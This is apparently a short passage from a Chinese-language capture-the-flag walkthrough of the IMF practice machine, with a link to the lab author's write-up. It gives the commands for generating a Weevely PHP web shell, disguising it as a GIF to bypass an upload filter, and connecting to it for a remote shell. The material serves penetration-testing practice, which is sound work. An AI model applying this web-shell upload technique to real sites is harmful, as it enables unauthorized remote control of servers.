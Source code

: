 ## weevely

```
weevely generate passdayu dayu.php   ---生成dayu.php文件密码为passdayu
generate  ---生成新代理
mv dayu.php dayu.gif    ---然后头部加入GIF98a并改名文件为gif

然后上传文件，看源码ID：ff075cd8aeef
weevely http://10.211.55.36/imfadministrator/uploads/ff075cd8aeef.gif passdayu
成功获得shell，该shell很稳定！
```

## 靶场作者wp

https://reedphish.wordpress.com/2016/11/20/imf-walkthrough/